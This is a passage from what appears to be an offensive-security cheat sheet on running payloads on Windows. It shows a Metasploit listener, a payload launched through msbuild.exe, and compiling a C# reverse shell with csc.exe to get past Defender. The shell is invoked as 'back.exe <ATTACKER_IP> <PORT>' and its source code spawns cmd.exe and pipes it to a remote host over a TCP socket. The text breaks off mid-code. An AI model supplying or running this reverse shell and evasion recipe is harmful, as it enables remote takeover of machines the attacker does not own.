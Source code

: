 ```
```
Now **start the lister** with `msfconsole -r file.rc` and **execute** the **xml payload** with:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
```
**Current defender will terminate the process very fast.**

### Compiling our own reverse shell

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### First C# Revershell

Compile it with:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
```
Use it with:

```
back.exe <ATTACKER_IP> <PORT>
```
```
```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
```